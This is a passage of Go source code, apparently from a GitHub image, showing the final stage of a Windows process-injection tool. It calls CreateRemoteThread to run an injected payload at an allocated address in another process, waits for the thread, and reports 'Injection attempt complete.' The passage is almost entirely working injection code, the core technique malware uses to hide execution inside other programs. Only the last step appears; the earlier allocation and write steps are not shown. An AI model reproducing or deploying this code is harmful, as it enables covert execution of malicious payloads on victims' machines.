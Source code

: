 ```go
	// --- Create Remote Thread using win32.CreateRemoteThread from zzl/go-win32api ---
	fmt.Printf("[*] Creating remote thread with win32.CreateRemoteThread starting at address 0x%X...\n", remoteAllocatedAddress)
	var threadId uint32
	var hWin32Thread win32.HANDLE    // To store the handle from win32.CreateRemoteThread
	var crtErrCode win32.WIN32_ERROR // To store the error code

	// Corrected call to win32.CreateRemoteThread:
	hWin32Thread, crtErrCode = win32.CreateRemoteThread(
		win32.HANDLE(hProcess), // hProcess is windows.Handle, cast to win32.HANDLE
		nil,                    // lpThreadAttributes (*win32.SECURITY_ATTRIBUTES)
		uintptr(0),             // dwStackSize (uintptr)
		win32.LPTHREAD_START_ROUTINE(unsafe.Pointer(remoteAllocatedAddress)), // lpStartAddress (LPTHREAD_START_ROUTINE is unsafe.Pointer)
		unsafe.Pointer(uintptr(0)), // lpParameter (unsafe.Pointer)
		0,                          // dwCreationFlags (uint32)
		&threadId,                  // lpThreadId (*uint32)
	)

	if crtErrCode != win32.NO_ERROR {
		log.Fatalf("[-] win32.CreateRemoteThread failed (Error code: %d)", crtErrCode)
	}
	fmt.Printf("[+] Successfully created remote thread with Handle: 0x%X and ID: %d\n", hWin32Thread, threadId)
	fmt.Println("[+] Check the target process for payload execution (e.g., MessageBox)...")

	// --- Optional: Wait for the thread and close handle ---
	// WaitForSingleObject and CloseHandle from golang.org/x/sys/windows expect windows.Handle.
	// win32.HANDLE and windows.Handle are both uintptr, so direct use or casting is fine.
	hThreadForWait := windows.Handle(hWin32Thread) // Explicit cast for clarity/safety

	event, err := windows.WaitForSingleObject(hThreadForWait, windows.INFINITE)
	if err != nil {
		log.Printf("[!] Warning: WaitForSingleObject failed: %v", err)
	} else {
		fmt.Printf("[*] Remote thread finished with wait status: 0x%X\n", event)
	}

	errClose := windows.CloseHandle(hThreadForWait)
	if errClose != nil {
		log.Printf("[!] Warning: Failed to close remote thread handle: %v", errClose)
	} else {
		fmt.Println("[*] Remote thread handle closed.")
	}

	fmt.Println("[+] Injection attempt complete.")
}


````

